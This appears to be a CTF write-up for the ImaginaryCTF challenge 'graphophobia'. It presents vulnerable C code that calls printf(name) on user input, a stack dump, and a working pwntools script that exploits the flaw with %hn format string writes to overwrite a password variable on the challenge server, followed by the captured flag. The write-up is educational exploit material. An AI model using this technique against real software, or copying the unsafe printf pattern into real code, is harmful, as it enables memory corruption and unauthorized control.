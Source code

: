 # graphophobia 
```
Writing things in C can be scary, but I find it's always best to take things one byte at a time, just to make sure all your code is in the right format. Stringing things together without thinking about it is sure to lead to problems.
```

## Challenge
> TL;DR: Perform format string attack to modify the password value

We are given a binary and a c program:
``` c
#include <stdio.h>
#include <stdlib.h>

int password = 0x65706f6e;

int main() {
    setbuf(stdout, NULL);
    printf("The password is at %p\n\n", &password);
    puts("What's your name?");
    char name[100];
    fgets(name, 100, stdin);
    printf("Hi, ");
    printf(name);
    printf("!\n");
    if (password == 0x87654321) {
        puts("Winner!");
        FILE* f = fopen("flag.txt", "r");
        fscanf(f, "%s", name);
        fclose(f);
        puts(name);
    } else {
        printf("Sorry, you entered the password %08x...\n", password);
    }
}
```
Goal: Modify the value of `password` to 0x87654321

The code contains the following line which is vulnerable to format string attack:
```
printf(name);
```

Issue: The value 0x87654321 is too large to overwrite the value of password variable.

Solution: Instead of writing a long integer (4 bytes), write 2 short integer (2 bytes). The value (0x8765 - [value written]) is wrote to [address] + 2 while the value 0x4321 is wrote to [address]. (Reasoning: 17185 (0x4321) is written to lower address is because we want to set 0x4321 value at that address. (0x8765 - [value written]) is written to higher address is because we want to set 0x8765 value at that address. However, 0x4321 characters have already been written when writting to the lower address. So, we specify (0x8765 - [value written]) so that the total characters written are 0x8765)

Once the payload is sent, the stack should look like: 
```bash
─────────────────────────────────────────────────────────────────── stack ────
0x00007ffcc4bb5e70│+0x0000: 0x2563353831373125	 ← $rax, $rsp, $r8
0x00007ffcc4bb5e78│+0x0008: 0x3731256e68243031
0x00007ffcc4bb5e80│+0x0010: 0x2431312563363734
0x00007ffcc4bb5e88│+0x0018: 0x4141414141416e68
0x00007ffcc4bb5e90│+0x0020: 0x000055d82df06060  →  0x0000000065706f6e ("nope"?)
0x00007ffcc4bb5e98│+0x0028: 0x000055d82df06062  →  0x0000000000006570 ("pe"?)
0x00007ffcc4bb5ea0│+0x0030: 0x00007ffcc4bb000a  →  0x0000000000000000
0x00007ffcc4bb5ea8│+0x0038: 0x000055d82df032f5  →  <__libc_csu_init+69> add rbx, 0x1
```

In this case, the payload is shown on the stack. The top 3 lines of the stack specifies the value to write and the position where the address to write to is stored. The "A" is used to ensure that it is word-aligned. So, the address of the `password` variable is stored in the 10th and 11th positions (as the 1st to 5th positions are the registers due to being a x64 binary).

Script:
```python
from pwn import *

#r = process('./405C-graphophobia')
r = remote('puzzler7.imaginaryctf.org', 8000)
#pause()
password_addr = int(r.recvline().split()[4], 0)
upper_addr = password_addr + 2
lower_addr = password_addr
print("Lower addr: " + hex(lower_addr))
print("Upper addr: " + hex(upper_addr))

# value to write : 0x87654321
# upper value: 34661 (0x8765) write to upper addr 
# lower value: 17185 (0x4321) write to lower addr
# Formula: The value we want - the value already wrote = the value to set
# 34661 - 17185 = 17476

r.recvuntil(b'name?\n')
payload = b'%17185c%10$hn'
payload += b'%17476c%11$hn'
payload += b'AAAAAA'
payload += p64(password_addr)
payload += p64(upper_addr)
print(len(payload))
r.sendline(payload)

r.interactive()
```

Output of the script:
```bash
$ python3 graphophobia.py
[+] Opening connection to puzzler7.imaginaryctf.org on port 8000: Done
Lower addr: 0x56314f15f060
Upper addr: 0x56314f15f062
48
[*] Switching to interactive mode
Hi,
-snip-
Winner!
ictf{im_scar3d_of_writing_good_flags_so_you_get_this_instead}
```

Flag: `ictf{im_scar3d_of_writing_good_flags_so_you_get_this_instead}`

## References
https://axcheron.github.io/exploit-101-format-strings/